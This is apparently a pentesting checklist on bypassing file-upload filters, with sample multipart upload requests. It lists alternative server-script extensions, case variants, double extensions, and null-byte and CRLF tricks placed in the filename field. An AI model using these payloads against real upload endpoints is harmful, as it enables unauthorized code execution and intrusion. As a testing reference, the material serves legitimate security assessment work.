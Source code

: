 ## Test Case - 1: Blacklisting Bypass.

```markdown
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is blacklisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. Try all of this extension 

**PHP** → .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
**ASP** → asp, .aspx, .cer, .asa
**Jsp** → .jsp, .jspx, .jsw, .jsv, .jspf
**Coldfusion** → .cfm, .cfml, .cfc, .dbm
**Using random capitalization** → .pHp, .pHP5, .PhAr

Find more in PayloadAllThings and https://book.hacktricks.xyz/pentesting-web/file-upload

4. If successful then exploit further, or there might be other type of validation or 
	 check so try other bypass.
```

## Test Case - 2: Whitelisting Bypass

```markdown
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is whitelisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.jpg"
Content-Type: application/x-php

3. Try all of this extension 

file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\x00.jpg this can be done while uploading the file too, name it file.phpD.jpg and change the D (44) in hex to 00.
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html

4. If doesn't works then try to bruteforce using intruder which extension are accepted and try again
5. If successful then exploit further, or there might be other type of validation or 
```